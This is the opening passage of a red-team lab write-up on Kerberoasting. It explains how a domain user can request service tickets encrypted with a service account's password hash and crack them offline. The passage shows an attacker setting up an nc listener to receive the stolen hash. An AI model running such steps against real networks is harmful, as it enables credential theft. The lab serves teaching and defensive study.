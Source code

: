 ```yaml
---
description: Credential Access
---
```


# T1208: Kerberoasting

This lab explores an attack that allows any domain user to request kerberos tickets from TGS that are encrypted with NTLM hash of the plaintext password of a domain user account that is used as a service account \(for example for running an IIS service\) and crack them offline avoiding lockouts.

## Execution

Note the vulnerable domain member - a user account with `servicePrincipalName` attribute set \(important piece for kerberoasting - only user accounts with that property set are most likely susceptible to kerberoasting\):

![](../../.gitbook/assets/kerberoast-principalname.png)

Attacker setting up an nc listener to receive a hash for cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
nc -lvp 443 > kerberoast.bin
```
{% endcode-tabs-item %}
{% endcode-tabs %}
